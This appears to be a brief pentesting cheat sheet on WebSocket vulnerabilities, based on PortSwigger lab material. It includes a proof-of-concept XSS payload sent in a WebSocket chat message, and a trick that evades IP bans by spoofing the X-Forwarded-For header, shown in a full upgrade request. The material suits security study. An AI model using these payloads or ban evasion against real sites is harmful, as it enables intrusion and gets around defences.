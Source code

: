  # WebSockets security vulnerabilities

>  Finding WebSockets security vulnerabilities generally involves manipulating them in ways that the application doesn't expect. You can do this using a Proxy Intercept tool.

You can use a Proxy Intercept tool to:

- Intercept and modify WebSocket messages.
- Replay and generate new WebSocket messages.
- Manipulate WebSocket connections.


## Summary
- [WebSockets security vulnerabilities](#websockets-security-vulnerabilities)
  - [Summary](#summary)
  - [Exploits](#exploits)
    - [Bypass "Banned IP Adress"](#bypass-%22banned-ip-adress%22)
  - [References](#references)

## Exploits

:fire: **example :** 

suppose a chat application uses WebSockets to send chat messages between the browser and the server. When a user types a chat message, a WebSocket message like the following is sent to the server: 
 
 ```bash
{"message":"Hello World!"} 
 ```

 The contents of the message are transmitted (again via WebSockets) to another chat user, and rendered in the user's browser as follows: 

  <td>Hello World!</td> 

   In this situation, provided no other input processing or defenses are in play, an attacker can perform a proof-of-concept XSS attack by submitting the following WebSocket message:

```bash
{"message":"<img src=1 onerror='alert(1)'>"} 
```

### Bypass "Banned IP Adress"

sometimes the attack will be blocked and the IP will be banned, then you can bypass this by adding 

```bash
X-Forwarded-For: 1.1.1.1
#Add this before Upgrade: websocket
```
:fire: **example :**

```bash
GET /chat HTTP/1.1
Host: sub.web-security-academy.net
User-Agent: Mozilla/5.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Sec-WebSocket-Version: 13
Origin: https://sub.web-security-academy.net
Sec-WebSocket-Key: reH5VTid3ChcIVhSdK3Zaw==
DNT: 1
Connection: keep-alive, Upgrade
Cookie: session=UIhNzeBLaTsoCfHfQsFFPyKQRRUIVf5k
Pragma: no-cache
Cache-Control: no-cache
X-Forwarded-For: 1.1.1.1
Upgrade: websocket
```

## References
* [Portswigger](https://portswigger.net/web-security/websockets)
